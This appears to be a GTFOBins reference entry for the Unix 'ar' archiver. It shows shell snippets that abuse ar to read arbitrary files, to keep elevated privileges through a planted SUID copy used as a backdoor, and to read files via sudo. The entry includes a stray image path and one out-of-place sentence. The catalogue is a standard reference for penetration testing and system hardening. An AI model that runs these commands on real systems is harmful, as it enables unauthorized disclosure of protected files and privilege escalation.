 # GTFOBin: ar

The file appears amid the binary content of the archive.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
TF=$(mktemp -u)
LFILE=file_to_read
ar r "$TF" "$LFILE"
cat "$TF"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ar) .

TF=$(mktemp -u)
LFILE=file_to_read
./ar r "$TF" "$LFILE"
cat "$TF"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -u)
LFILE=file_to_read
sudo ar r "$TF" "$LFILE"
cat "$TF"
```